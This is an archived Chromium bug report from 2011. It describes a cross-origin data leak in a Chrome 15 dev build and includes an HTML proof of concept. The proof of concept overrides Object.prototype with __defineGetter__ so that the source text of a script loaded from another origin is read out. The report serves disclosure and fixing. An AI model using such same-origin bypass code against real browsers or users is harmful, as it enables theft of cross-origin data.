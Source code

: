 # Arbitrary cross-origin bypass using `__defineGetter__` prototype override

> Aug 18 2011

## VULNERABILITY DETAILS

You can access cross-origin text by hooking into `__defineGetter__` and using `SourceLocation` object.

## REPRODUCTION CASE

``` html
<html>

<head>

  <script type="text/javascript">
    Object.prototype.
    `__defineGetter__` ("line", function() {
      alert(this.script.sourceSlice().sourceText());
    });
  </script>

  <script src="http://google.com"></script>

</head>

<body></body>

</html>
```

## VERSION

Chrome Version: [15.0.854.0] + [dev]
Operating System: [Win, 7, Service pack 1]

Link: https://bugs.chromium.org/p/chromium/issues/detail?id=93416
